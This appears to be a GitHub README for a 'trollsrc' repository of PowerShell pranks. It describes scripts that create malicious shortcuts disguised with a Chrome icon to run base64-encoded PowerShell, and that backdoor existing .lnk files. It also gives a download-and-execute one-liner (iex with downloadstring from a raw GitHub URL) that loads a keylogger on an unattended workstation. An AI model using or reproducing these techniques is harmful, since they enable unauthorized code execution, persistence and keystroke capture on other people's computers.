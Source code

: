 # trollsrc
PoCs to share for trolling

.\make-shortcut.ps1 will assist in generating malicious shortcut links (chrome Icon by default)

It will take arbitrary powershell 1 liners as an argument to base64 encode and execute when the icon is clicked



.\bd-lnk.ps1 will take an executable shortcut as an argument, and backdoor with a troll message payload

.\bd-lnk.ps1 -sourcepath "$env:homepath\desktop\google chrome.lnk" 

this will copy the icon to $env:homepath\trollz\linkbackup\google chrome.lnk for restoration

it will backdoor the link with a troll msg and then redirect execution to the origional application


iex (new-object system.net.webclient).downloadstring("https://raw.githubusercontent.com/pooki3bear/trollsrc/master/keyimp.ps1")

At an unattended workstation loads up a keylogger that pops calc.exe anytime 'c' is pressed

